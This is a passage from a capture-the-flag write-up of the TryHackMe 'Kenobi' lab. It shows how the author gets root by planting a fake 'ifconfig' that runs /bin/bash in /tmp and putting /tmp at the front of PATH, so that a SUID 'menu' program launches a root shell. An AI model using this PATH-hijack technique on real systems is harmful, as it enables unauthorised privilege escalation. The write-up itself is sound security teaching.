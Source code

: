 ```terminal
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:232 errors:0 dropped:0 overruns:0 frame:0
          TX packets:232 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1
          RX bytes:16160 (16.1 KB)  TX bytes:16160 (16.1 KB)
```

With that, we can try to create our own `ifconfig` binary that will run `/bin/bash` command once called by `menu`, we need to put it in the /tmp directory, give it the execute permission and add the /tmp directory to the **PATH** variable.

```terminal
kenobi@kenobi:~$ echo '/bin/bash' > /tmp/ifconfig
kenobi@kenobi:~$ chmod +x /tmp/ifconfig
kenobi@kenobi:~$ export PATH=/tmp:$PATH
```

Now if we run `menu`with choice 3, we should have root:

```terminal
kenobi@kenobi:~$ menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :3
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@kenobi:~# ls /root
root.txt
```

We got root! And just like that, we have PWNed [Kenobi](https://tryhackme.com/room/kenobi). Hope you guys enjoyed it, and see you in the next hack.
